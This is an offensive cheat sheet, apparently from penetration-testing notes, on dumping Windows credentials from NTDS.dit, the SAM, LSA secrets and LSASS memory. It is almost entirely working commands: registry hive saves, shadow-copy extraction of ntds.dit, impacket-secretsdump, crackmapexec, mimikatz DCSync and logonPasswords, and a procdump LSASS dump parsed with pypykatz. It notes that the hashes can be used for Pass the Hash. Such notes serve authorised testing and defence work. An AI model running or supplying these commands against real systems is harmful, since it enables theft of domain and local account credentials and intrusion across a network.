 # Credentials Dumping
Uses the boot key to decrypt useful files:
```bash
reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM
```

## NTDS.DIT
All domain account hashes & kerberos keys. The database is stored on the DC located in the NTDS folder of the system root. Hashes can be used for Pass The Hash attack (except cached hashes).
```bash
vssadmin create shadow /for=C:
copy <VOLUME_NAME>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<ID>
impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL

crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --ntds

lsadump::dcsync \all
```

## SAM
Security Account Manager (SAM) database contains all NTLM hashes for local accounts, stored at `HKLM\SAM` or `c:\system32\config\sam`. On a DC, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
```bash
reg SAVE HKLM\SAM C:\Windows\Temp\SAM
impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL

crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --sam

token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>
token::elevate lsadump::sam
```

## LSA secrets
Local Security Authority (LSA) contains cached secrets and keys, stored at `HKLM\SECURITY or `c:\system32\config\security`.
```bash
reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY
impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL

crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --lsa

token::elevate lsadump::cache
token::elevate lsadump::lsa /inject # ? LOCAL ACCOUNTS?!
lsadump::secrets
```

## LSASS process
Local Security Authority Subsystem Service (LSASS) contains passwords and NTLM hashes, stored in lsass.exe.
```bash
lsassy -d '<DOMAIN>' -u '<USER>' -p '<PASS>' <IP>
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' -M lsassy

sekurlsa::logonPasswords

tasklist /fi "imagename eq lsass.exe"
procdump.exe -accepteula -ma <PID> C:\\Windows\\Temp\\lsass.dmp
pypykatz lsa minidump lsass.dmp
```




```bash
impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'
```